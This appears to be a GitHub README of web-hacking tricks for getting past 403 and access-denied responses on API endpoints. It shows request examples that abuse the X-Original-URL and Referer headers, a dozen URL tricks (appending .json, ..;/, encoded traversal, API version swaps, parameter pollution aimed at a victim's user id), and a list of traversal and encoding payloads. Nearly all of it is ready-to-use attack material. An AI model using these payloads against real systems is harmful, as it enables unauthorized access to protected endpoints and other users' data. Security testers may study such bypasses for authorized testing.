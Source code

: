 # Web-Hacking #
## Topics 

#### Tricks
<b>If you want do bypass endpoint always try to use own methodology.</b>

<b>Example</b>:

Http Header based bypass:

<b>1.</b> X-Original-URL: /redact

<b>Example:</b><br/>
 
GET /api/getUser HTTP/1.1 → 403
Host: redact.com

GET / HTTP/1.1
Host: redact.com
X-Original-URL: /api/getUser → 200 OK

<b>2.</b> Referer: https://site.com/api/redact

Example:<br/>
  

GET /api/getUser HTTP/1.1 → acess denied
Host: redact.com

  
  
GET / HTTP/1.1
Host: redact.com
Referer: https://site.com/api/getUser → 200 OK
 
  or
  
GET / HTTP/1.1
Host: redact.com
Referer: https://site.com/api/getUser → 200 ok

More examples:

<b>3</b>. https://site.com/api/v1/users/redactid → access denied <br/>
https://site.com/api/v1/users/redactid<b>.json</b> → bypass ok <br/>

<b>4</b>. https://site.com/api/v1/redactid → acess denied <br/>
https://site.com/api/v1/users/redactid<b>:</b> → bypass ok <br/>

<b>5</b>. https://site.com/api/v1/users/redactid → access denied <br/>
https://site.com/api/v1/users/redactid<b>..;/</b> → bypass ok <br/>

<b>6</b>. https://site.com/api/v1/users/redactid → access denied <br/>
https://site.com/api/v1/users/redactid<b>\..\.\getUser</b> → bypass ok <br/>

<b>7</b>. https://site.com/api/v1/users/redactid → access denied <br/>
https://site.com/api/v1/users/redactid<b>/</b> → bypass ok <br/>

<b>8</b>. https://site.com/api/v1/users/redactid → acess denied <br/>
https://site.com/api/v1/users/redactid<b>??</b> → bypass ok <br/>

<b>9</b>. https://site.com/api/v1/users/redactid → access denied <br/>
https://site.com/api/<b>v2</b>/users/redactid → bypass ok <br/>
            or
https://site.com/api/<b>v3</b>/users/redactid → bypass ok <br/>

<b>10</b>. https://site.com/api/v1/users/redactid → access denied <br/>
https://site.com/api/v1/users/redactid<b>&accountdetails</b> → bypass ok <br/>

<b>11</b>. https://site.com/api/v1/users/victim?id=BAEILsaqQhk → acess denied <br/>
https://site.com/api/v1/users/<b>your?id=UAEILsdUf50&</b>victim?id=BAEILsaqQhk → bypass ok <br/>

<b>12</b>. https://site.com/api/v1/users/redactid → access denied <br/>
https://site.com/api/v1/users/redactid<b>/email</b> → bypass ok <br/>

Payload for basic test:
<ul>
 <b>
? <br/>
?? <br/>
& <br/>
'#' <br/>
% <br/>
%20 <br/>
%09 <br/>
/ <br/>
/..;/ <br/>
../ <br/>
..$2f <br/>
..;/ <br/>
../ <br/>
\..\.\ <br/>
.././ <br/>
..%00/ <br/>
.%0d/ <br/>
..%5c <br/>
..\ <br/>
..%ff/ <br/>
%2e%2e%2f <br/>
.%2e/ <br/>
%3f <br/>
%26 <br/>
%23 <br/>
.json <br/>
 </b>
</ul>
HTTP Header based bypass:

1. X-Original-URL: /redact
2. Referer: https://site.com/api/redact



